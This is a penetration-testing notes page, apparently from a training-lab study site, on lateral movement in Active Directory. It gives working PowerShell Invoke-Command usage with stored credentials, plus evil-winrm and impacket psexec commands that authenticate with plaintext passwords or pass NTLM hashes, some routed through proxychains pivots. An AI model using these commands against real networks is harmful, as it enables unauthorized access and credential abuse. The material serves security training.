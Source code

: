 ```yaml
---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
```

# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession


## Evil-Winrm

With a pivot host and chisel + proxychains

```powershell
proxychains evil-winrm -i $ip -u $user -p $password
```

With hashes:

```bash
evil-winrm -i $ip -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
```


## psexec.py

With a pivot host and chisel + proxychains 

```powershell
proxychains tools/impacket/examples/psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

Passing a hash:

```bash
# An example: 
python3 psexec.py Administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

# Another example:
impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```


## mstsc.exe 